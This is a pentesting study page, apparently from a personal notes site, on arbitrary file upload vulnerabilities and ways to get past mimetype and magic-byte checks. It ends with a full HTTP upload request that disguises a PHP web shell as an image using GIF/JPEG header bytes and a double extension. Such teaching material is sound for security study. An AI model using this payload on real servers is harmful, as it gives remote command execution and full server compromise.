

repository: amandaguglieri/hackinglife · page: webexploitation/arbitrary-file-upload/index.html · generator: mkdocs

---
title: Arbitrary file upload
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
# Arbitrary File Upload

An arbitrary file upload vulnerability is a type of security flaw in web applications that allows an attacker to upload and execute malicious files on a web server. This can have serious consequences, including unauthorized access to sensitive data, server compromise, and even complete system control. The vulnerability arises when the application fails to properly validate and secure the uploaded files. This means that the application may not check if the uploaded file is actually of the expected type (e.g., image, PDF), or it may not restrict the file's location or execution on the server.


**Exploitation**: An attacker identifies the file upload functionality in the target  application and attempts to upload a malicious file. This file can be crafted to include malicious code, such as PHP scripts, shell commands, or malware.

**Bypassing Validation**: If the application doesn't properly validate file types or restricts file locations, the attacker can upload a file with a misleading extension (e.g., uploading a PHP file with a .jpg extension).



## Bypass file upload restrictions

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.


## Mimetype

Dictionary for enumerating all mimetypes: [https://github.com/amandaguglieri/dictionaries/blob/main/content-type](https://github.com/amandaguglieri/dictionaries/blob/main/content-type)


## Magic number

Some applications inspect the first few bytes of the file's content, which contains the file signature or Magic bytes:

- if a file starts with (`GIF87a` or `GIF89a`), this indicates that it is a `GIF` image

So a technique for bypassing this restriction is leaving those first bytes in the upload request. Example:


```
POST /upload.php HTTP/1.1
Host: 94.237.55.28:30732
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------363913493316563598061512274268
Content-Length: 344
Origin: http://94.237.55.28:30732
Connection: keep-alive
Referer: http://94.237.55.28:30732/

-----------------------------363913493316563598061512274268
Content-Disposition: form-data; name="uploadFile"; filename="mala.gif.phar"
Content-Type: image/jpeg

ÿØÿàJFIF``ÿþ;CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 75
<?php system($_GET['cmd']);?>	

-----------------------------363913493316563598061512274268--
```
